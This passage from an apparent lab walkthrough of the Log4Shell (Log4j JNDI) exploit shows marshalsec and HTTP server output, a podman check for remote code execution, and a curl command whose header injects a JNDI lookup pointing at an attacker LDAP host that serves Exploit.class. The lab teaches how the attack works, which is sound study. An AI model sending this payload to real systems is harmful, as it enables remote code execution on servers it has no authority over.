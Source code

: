 ### Step 7: Observe the Exploit

**In the marshalsec terminal**, you'll see:
```
Send LDAP reference result for Exploit redirecting to http://192.168.1.100:8888/Exploit.class
```

**In the HTTP server terminal**, you'll see:
```
GET /Exploit.class HTTP/1.1
```

**In the vulnerable app terminal**, you'll see the Log4j attempting the JNDI lookup

### Step 8: Verify RCE

Check if the exploit executed inside the container:
```bash
# Get the container ID
podman ps

# Execute a shell in the running container
podman exec -it <container_id> /bin/bash

# Inside the container, check the exploit output
cat /tmp/exploit.txt
```

You should see cowsay output and execution proof!

## Alternative: Simpler curl-based Exploit

Instead of `nc`, you can use curl with a custom header:
```bash
curl -H "X-Api-Version: \${jndi:ldap://192.168.1.100:1389/Exploit}" http://localhost:8080/
```

## Understanding the Attack Chain

```
┌─────────────┐      ┌──────────────┐      ┌─────────────┐      ┌──────────────┐
│   Attacker  │─────>│  Vulnerable  │─────>│    LDAP     │─────>│     HTTP     │
│             │ JNDI │   Log4j App  │ Ref  │   Server    │Class │    Server    │
└─────────────┘      └──────────────┘      └─────────────┘      └──────────────┘
                              │                                          │
                              │                                          │
                              └──────────< Downloads Exploit.class <─────┘
                              │
                              ▼
                        [Code Execution]
                     Install cowsay, run commands
```

## Key Curl Commands Summary
